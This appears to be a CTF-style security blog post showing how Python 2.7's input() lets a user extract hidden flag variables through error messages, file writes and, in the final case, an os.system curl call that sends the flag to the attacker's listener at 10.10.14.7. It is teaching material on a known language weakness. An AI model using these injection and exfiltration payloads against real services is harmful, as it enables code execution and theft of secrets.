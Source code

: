```yaml
---
title: Python - Hacking with style - input
description: Magic python input to compromise scripts
categories: python
author: Xh4H
tags: python proof-of-concept shell input vulnerability
---
```


This is the second part of [Python 2.7 input security issues](https://posts.xh4h.com/python/2019/08/02/input_poc.html) post.

In this post we will see what can be done appart from spawning a shell.

# Getting variable values

## Case 1 - string variable:

We are given a piece of code with hidden variable values:

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

if input("Password > ") == password:
	print "Awesome!"
else:
	print "Wrong!"
```

This simple script generates a 11 char length string, and we have to guess it.

There's `flag` variable, and we are interested on getting it's value.

A simple method is generating an error using that variable with `input`:

<div style="text-align:center"><img src="/assets/images/python2_image_1.png" /></div>

By attempting to parse to int a string that is not solely filled by numbers we will get an exception error, and since it did not get handled, we get the raw error output, containing, so, the variable content.

`1_am_s0_1nT3r3stinG`

## Case 2 - numeric variable:

In the following scenario the flag will only be numbers. We will re-use the same code from `Case 1`.

<div style="text-align:center"><img src="/assets/images/python2_image_2.png" /></div>

In this case we can't take advantage of parse to int feature, oh well, maybe we can...

<div style="text-align:center"><img src="/assets/images/python2_image_3.png" /></div>

What we did above is pretty simple. Given a string variable filled by numbers, we can concatenate a non-numeric character and afterwards parse to int the variable, getting so, our flag (removing, of course, the last character we added).

`123542562362161346`

## Case 3 - exceptions handled:

We took advantage of non-existant exception handling in the previous 2 cases.

Now we are given a script that is handling any exception. How can we get our precious flag?

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

try:
	if input("Password > ") == password:
		print "Awesome!"
	else:
		print "Wrong!"
except Exception as e:
	print "What are you doing?!"
```

If we put into practice the previous technique, we will get the `What are you doing?!` print, since any exception is being handled now.

We are going to have a look at **two** different techniques.

_Please note, `Case 3.2` can also be solved with `Case 3.1`, but the aim is having different cases to explore different possibilities._

### Case 3.1 - Re-using input function over and over ...

First let's understand how `input` function is used:

```py
input("Hey, write something here: ")
```

This piece of code will print ``Hey, write something here: `` and then ask for user input.

Since it is expecting a string, we can pass the flag as parameter.

<div style="text-align:center"><img src="/assets/images/python2_image_4.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.2 - Having access to the script location

If we have, let's say `ssh` access to the server where the script is being hosted, we can output the flag variable content to a file, and then read it.

With the following input, we will create a file called `my_flag` and write the flag to it.

```py
open("my_flag", "w").write(flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_5.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.3 - Remote connection? CURL it to me please!

Final case, let's imagine that this script is listening in port 8000. We don't have access to the server, we are establishing a connection using netcat `nc`.

We can execute a system command and curl the content of a variable through our pc.

First, set up an http listener using port 80:

```sh
python -m SimpleHTTPServer 80
```

Second, figure out our IP address. We have to take into account whether we are in a private network to access the server where that script is located.
Let's say we used an `OpenVPN` profile to be able to `netcat` to the target server. It is very likely that the target server won't have access to external IPs, therefore we will have to get our tunnel IP (tun0).

```sh
ifconfig tun0
```

<div style="text-align:center"><img src="/assets/images/python2_image_6.png" /></div>

We are going to use the following IP: ``10.10.14.7``.

We are now ready to retrieve that flag!

With the following line, we will be able to execute a bash system command, call curl appending to the url the variable we want:

```py
__import__('os').system("curl http://10.10.14.7/" + flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_7.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

<br>
<br>

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>